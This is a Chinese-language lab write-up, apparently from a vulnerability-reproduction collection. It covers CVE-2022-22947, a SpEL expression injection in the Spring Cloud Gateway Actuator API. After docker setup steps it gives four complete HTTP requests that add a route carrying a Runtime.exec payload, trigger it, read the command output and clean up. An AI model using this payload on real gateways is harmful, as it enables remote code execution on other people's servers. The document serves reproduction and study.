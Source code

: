 # Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947）

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

参考链接：

- <https://tanzu.vmware.com/security/cve-2022-22947>
- <https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/>

## 漏洞环境

执行如下命令启动一个使用了Spring Cloud Gateway 3.1.0的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可看到演示页面，这个页面的上游就是example.com。

## 漏洞复现

利用这个漏洞需要分多步。

首先，发送如下数据包即可添加一个包含恶意SpEL表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

![](1.png)

然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

发送如下数据包即可查看执行结果：

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

最后，发送如下数据包清理现场，删除所添加的路由：

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)
